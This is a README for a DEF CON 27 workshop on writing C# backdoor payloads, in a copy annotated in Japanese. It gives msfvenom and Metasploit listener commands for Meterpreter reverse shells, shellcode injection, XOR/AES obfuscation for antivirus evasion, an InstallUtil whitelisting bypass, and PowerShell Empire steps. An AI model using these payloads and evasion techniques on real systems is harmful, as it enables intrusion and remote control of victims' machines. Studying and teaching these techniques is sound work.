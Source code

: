 # Writing custom backdoor payloads with C#

This workshop aims to provide attendees hands-on experience on writing custom backdoor payloads using C# for the most common command and control frameworks including Metasploit, Powershell Empire and Cobalt Strike. The workshop consists in 8 lab exercises; each of the exercises goes over a different technique that leverages C# and .NET capabilities to obtain a reverse shell on a victim Windows host. The covered techniques include raw shellcode injection, process injection, process hollowing, runtime compilation, parent pid spoofing, antivirus bypassing, etc. At the end of this workshop attendees will have a clear understanding of these techniques both from an attack and defense perspective.

**Skill Level**: Intermediate

**Prerequisites**: Basic to intermediate programming/scripting skills. Prior experience with C# helps but not required.

**Materials**: Laptop with virtualization software. A Windows 10 virtual machine and a Kali Linux Virtual Machine.

The "Writing custom back payloads with C#" workshop was first presented at [Defcon 27](https://www.defcon.org/html/defcon-27/dc-27-workshops.html#velazco). 

## Authors

* **Mauricio Velazco** - [@mvelazco](https://twitter.com/mvelazco)

* **Olindo Verrillo** - [@olindoverrillo](https://twitter.com/olindoverrillo)

## Labs

### Lab 1 : Hello World

The goal of this lab is to implement the typical Hello World example with C#. The first exercise uses .NETs Console class to print “Hello World” while the second uses .NETs Platform Invocation Services feature to import and call the Win32 Api MessageBox.

### Lab 2 : Custom Meterpreter Stager

The goal of this lab is to write a custom Meterpreter stager with C# by leveraging the WebClient class to download meterpreter’s second stage and Win32 API functions to copy the second stage in memory and execute it.

```bash
#Run msfconsole and setup a listener:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST [YOUR_IP]
set LPORT 8080

#Create stager by msfvenom
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=Your_Kali_IP LPORT=8080
-f exe > ~/reverse.exe
#twistd3とかでこのmalwareが送信するランダムなURLを確認する
```
確認したランダムなURLで[2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab2/2.cs#L30) の箇所をUpdateする

### Lab 3 : Raw Shellcode Injection

The goal of this lab is to write a custom binary that injects a pre-defined shellcode into memory and executes it. Metasploit’s msfvenom will be used to generate the shellcode and the same Win32 API calls used in Lab 2 will be used to perform the execution.

```bash
#sample
msfvenom -a x64 -p windows/x64/messagebox Text="Hello from shellcode !" -f csharp
#generate shellcode for c#
msfvenom -a x64 -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=8080 -f csharp

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 674 bytes
Final size of csharp file: 3446 bytes
byte[] buf = new byte[674] {
0xfc,0x48,0x83...
```
Inject to source code([1.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab3/1.cs#L30))

#### Bypassing Application Whitelisting ([2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/master/Labs/lab3/2.cs))
##### living off the land and is used by attackers to circumvent controls and avoid detection.
```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe 2.cs
#Now for the bypass, we can execute the following command to get InstallUtil.exe to run our assembly, instead of launching it directly
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile=
/LogToConsole=false /U 2.exe
#we can abuse InstallUtil.exe and get it to run our code. This way we can bypass application whitelisting technologies and look less suspicious to an analyst.
```
##### Bypssing Applocker
https://jpn.nec.com/cybersecurity/blog/220916/index.html

### Lab 4 : Shellcode Obfuscation

The goal of this lab is to reduce detection of the custom payloads by signature based anti-malware. We can achieve this by obfuscating the shellcode generated by msfvenom using two common techniques: XOR and AES
- [1.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/1.cs#L28): でLab3のshellcodeをpasteし、xorしたやつを出力。keyはABCDE。
- [2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/2.cs#L47): にそのxorしたやつをpaste,compile,実行。C2へアクセスが成功する。
- [3.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/3.cs#L14)上のやつのAES版。lab3の生のshellcodeをpaste。AES暗号化されたやつが出力される。先に表示されるやつが暗号化されたcode
- [4.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/4.cs#L38) にその暗号化したやつをpaste,compile,実行。C2へアクセスが成功する。
>

### Lab 5 : PowerShell without PowerShell.exe

The goal of this lab is to execute a Powershell script and avoid to use the powershell.exe binary by leveraging the .NET framework and C#. Using this technique, we will get a Powershell Empire agent.  

```powershell
csc.exe /reference:"C:\Program Files (x86)\Reference Assemblies\Microsoft\WindowsPowerShell\3.0\System.Management.Automation.dll" 1.cs
```
##### get a listener going and generate our shellcode. 
Empire, run
- ./empire
- listeners
- uselistener http
- Configure your listener
- launcher powershell
##### We now have a PowerShell one-liner we can use to launch our payload.
```powershell
powershell -noP -sta -w 1 -enc
```
paste it into the “String script” variable of 2.cs within the Lab 5 folder.
Compile 2.cs, including the /reference like we did in the last exercise and execute 2.exe. Check back on your Empire session and you should have a shell, congratz! Feel free to run a few PowerShell Empire commands.
### Lab 6 : DLL Injection

The goal of this lab is to implement the DLL Injection technique using C# and obtain a reverse shell from a victim host. Using 3 different exercises, we will understand and implement the different steps for a successful injection.

### Lab 7 : Process Hollowing

The goal of this lab is to understand and implement the Process Hollowing technique using C# technique to obtain a reverse shell on a victim host. 

### Lab 8 : Parent Process Spoofing

The goal of the final lab is to leverage C# to spawn a new process spoofing its parent process and inject shellcode to it to obtain a reverse shell.

## Acknowledgments

Most of the labs on this workshop started from a Github repository/gist, a Stack Overflow code snippet or a Google search. Thank you to everyone who shares code for others to learn from.

* https://github.com/pwndizzle/c-sharp-memory-injection
* http://www.codingvision.net/miscellaneous/c-inject-a-dll-into-a-process-w-createremotethread
* https://github.com/re4lity/subTee-gits-backups
* https://www.codeproject.com/Articles/769741/Csharp-AES-bits-Encryption-Library-with-Salt
* https://gist.github.com/Arno0x/7f34e869cc847e088d3e107632e18294
* https://github.com/leoloobeek/csharp/blob/master/ExecutionTesting.cs




